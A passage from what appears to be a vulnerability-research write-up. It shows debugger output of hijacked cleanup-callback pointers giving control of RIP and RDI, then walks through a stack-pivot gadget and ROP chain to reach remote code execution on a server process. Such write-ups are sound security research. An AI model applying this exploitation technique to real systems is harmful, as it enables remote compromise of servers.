 As you can see `c->plain_cleanup_cb` has value `0x4242424242424242`, and `c->data` has value `0x4141414141414141`.

Which means RIP and RDI are fully controlled.

## Getting RCE

As explained, our main target is reaching `run_cleanups()` function with an arbitrary address, or with a non-arbitrary address but controlling it's content. This allow us to obtain full RIP and RDI control, which taking into account that we already have predictable addresses for every segment, means a Remote Code Execution is likely to be possible.

Some ways to obtain Remote Code Execution:

### Stack pivot, ROP and shellcode execution

As we control both RIP and RDI, we could search for useful gadgets that would allow us to redirect control-flow using a ROPchain to bypass NX.

When reaching `run_cleanups()`...

```
gef➤  p *c
$7 = {
  data = 0x563593915280,
  plain_cleanup_cb = 0x7f875ab201a1 <authnone_marshal+17>,
  child_cleanup_cb = 0x4141414141414141,
  next = 0x4242424242424242
}
gef➤  x/2i c->plain_cleanup_cb
   0x7f875ab201a1 <authnone_marshal+17>:	push   rdi
   0x7f875ab201a2 <authnone_marshal+18>:	pop    rsp
gef➤  
```

When entering on the stack pivot gadget:

```
 → 0x7f875ab201a1 <authnone_marshal+17> push   rdi
   0x7f875ab201a2 <authnone_marshal+18> pop    rsp
   0x7f875ab201a3 <authnone_marshal+19> lea    rsi, [rdi+0x48]
   0x7f875ab201a7 <authnone_marshal+23> mov    rdi, r8
   0x7f875ab201aa <authnone_marshal+26> mov    rax, QWORD PTR [rax+0x18]
   0x7f875ab201ae <authnone_marshal+30> jmp    rax
```

We crafted previously our `resp_pool` struct to point `rax` to the address where an address pointing near a `ret` instruction is stored. So when:

```
mov    rax, QWORD PTR [rax+0x18]
```

is executed, we get in `rax` the address, which will be used just on next instruction: `jmp rax`.

As it is near a `ret` instruction, we will finally execute our ROPchain as we pointed `rsp` right before our ROPchain, and a `ret` instruction just got executed.
